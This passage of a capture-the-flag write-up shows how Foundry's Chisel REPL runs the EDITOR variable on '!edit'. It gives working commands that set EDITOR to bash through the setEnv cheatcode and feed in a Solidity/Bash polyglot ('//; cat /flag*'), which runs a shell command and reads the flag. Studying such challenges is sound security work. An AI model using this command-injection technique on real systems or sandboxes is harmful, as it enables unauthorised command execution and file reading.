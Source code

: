 ```rust
                "Editor exited without a status code".to_string(),
            )
        }
    }

    (snip)
```

The key part to focus on is the editor selection.
If the `EDITOR` environment variable is set, it is executed as the command, and if not, `vim` is used.
The argument passed is the name of a temporary file that contains the valid code entered so far on Chisel.
It is also important that `EDITOR` is read at the time `!edit` is executed, not when Chisel is launched.

In summary, the following command will run:
```
(vim or $EDITOR) (temp file path)
```

What happens if we change `EDITOR` to something other than an editor?
For example, if we set `EDITOR` to `bash` or `node`, then by running `!edit`, we can execute the temporary Solidity file as code in `bash` or `node`.

Changing environment variables is possible with Foundry's cheatcode feature.
Unlike file reading and writing, modifying environment variables does not require any special permissions.

```sh
$ chisel --no-vm
Welcome to Chisel! Type `!help` to show available commands.
➜ interface Vm { function setEnv(string calldata name, string calldata value) external; }
➜ Vm vm = Vm(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);
➜ vm.setEnv("EDITOR", "bash");
➜ !edit
/var/folders/p_/xbvs4ns92wj3b9xmkc1zkw2w0000gn/T/chisel-tmp.sol: line 1: syntax error near unexpected token `('
/var/folders/p_/xbvs4ns92wj3b9xmkc1zkw2w0000gn/T/chisel-tmp.sol: line 1: `Vm vm = Vm(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);'
Editor exited with status 2
```

Finally, if you manage to slip Bash code that Chisel can interpret as Solidity code, you can solve this challenge.
Essentially, you need to create a polyglot.
For instance, you can use something like `//; cat /flag*`.

```sh
$ chisel --no-vm
Welcome to Chisel! Type `!help` to show available commands.
➜ //; cat /flag*
➜ interface Vm { function setEnv(string calldata name, string calldata value) external; }
➜ Vm vm = Vm(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);
➜ vm.setEnv("EDITOR", "bash");
➜ !edit
/tmp/chisel-tmp.sol: line 1: //: Is a directory
blaz{REDACTED}
/tmp/chisel-tmp.sol: line 2: syntax error near unexpected token `('
/tmp/chisel-tmp.sol: line 2: `Vm vm = Vm(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);'
Editor exited with status 2
```
